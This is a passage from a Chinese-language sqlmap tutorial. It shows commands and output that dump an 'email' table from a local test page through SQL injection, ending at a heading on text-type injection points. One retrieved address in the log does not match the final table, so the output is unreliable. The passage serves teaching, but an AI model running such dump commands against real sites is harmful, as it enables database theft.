 ```
+--------+-------------+
| email  | varchar(32) |
| userid | varchar(16) |
+--------+-------------+

[12:15:30] [INFO] fetched data logged to text files under 'C:\Users\asus\.sqlmap\output\localhost'

[*] shutting down at 12:15:30
```

### 获取记录

`--dump`用于获取记录，使用`-C`指定列名的话是获取某一列的记录，不指定就是获取整个表。

```
C:\Users\asus> sqlmap -u http://localhost/sql.php?id= -p id -D test -T email --dump

...

[12:16:59] [INFO] fetching columns for table 'email' in database 'test'
[12:16:59] [INFO] the SQL query used returns 2 entries
[12:16:59] [INFO] resumed: userid
[12:16:59] [INFO] resumed: varchar(16)
[12:16:59] [INFO] resumed: email
[12:16:59] [INFO] resumed: varchar(32)
[12:16:59] [INFO] fetching entries for table 'email' in database 'test'
[12:17:01] [INFO] the SQL query used returns 2 entries
[12:17:04] [INFO] retrieved: test2@example.com
[12:17:06] [INFO] retrieved: 123
[12:17:08] [INFO] retrieved: wizard.z@qq.com
[12:17:10] [INFO] retrieved: 233837063867287
[12:17:10] [INFO] analyzing table dump for possible password hashes
Database: test
Table: email
[2 entries]
+-----------------+-------------------+
| userid          | email             |
+-----------------+-------------------+
| 123             | test2@example.com |
| 233837063867287 | test@example.com  |
+-----------------+-------------------+

[12:17:10] [INFO] table 'test.email' dumped to CSV file 'C:\Users\asus\.sqlmap\output\localhost\dump\test\email.csv'
[12:17:10] [INFO] fetched data logged to text files under 'C:\Users\asus\.sqlmap\output\localhost'

[*] shutting down at 12:17:10
```

## 文本型注入点
